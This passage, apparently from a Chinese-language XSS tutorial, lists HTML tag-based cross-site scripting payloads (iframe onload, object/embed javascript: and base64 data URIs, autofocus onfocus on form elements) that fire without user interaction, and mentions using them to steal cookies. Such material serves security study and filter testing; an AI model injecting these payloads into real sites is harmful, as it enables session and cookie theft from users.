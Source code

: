 虽然不能触发onerror但是能触发onload

```
<iframe onload=alert(1) />
```

------

`<object>和<embed>`



这个2标签和`<a>`标签差不多，但是不需要交互，也就是能直接运行

利用data属性加载数据文档，当然也可用加载javascript

```
<object data=javascript:alert(1)></object>
<embed src=javascript:alert(1)></embed>
```

如果数据不存在，还可以利用onerror

```
<object data=x onerror=alert(1)></object>
```

甚至data属性还可以解析text/html,利用下base64编码，编码内容是`<script>alert(1)</script>`，如果直接写标签的`<>`会难以识别

```
<object data=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==></object>
<embed src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==></object>
```

如果打cookie类比下`<img>`标签中的onerror或者`<a>`标签中的herf=javascript:即可

------

`<input>,<button>,<keygen>,<select>,<textarea>`

这几个标签一起讲师因为他们都有焦点这个东西，所有可以利用`onfocus`来达到无需交互直接触发xss

```
<input type=text onfocus=alert(1) autofocus />
```

```
<button onfocus=alert(1) autofocus />
```

```
<keygen onfocus=alert(1) autofocus />
```

```
<select onfocus=alert(1) autofocus />
```

```
<textarea onfocus=alert(1) autofocus />
```


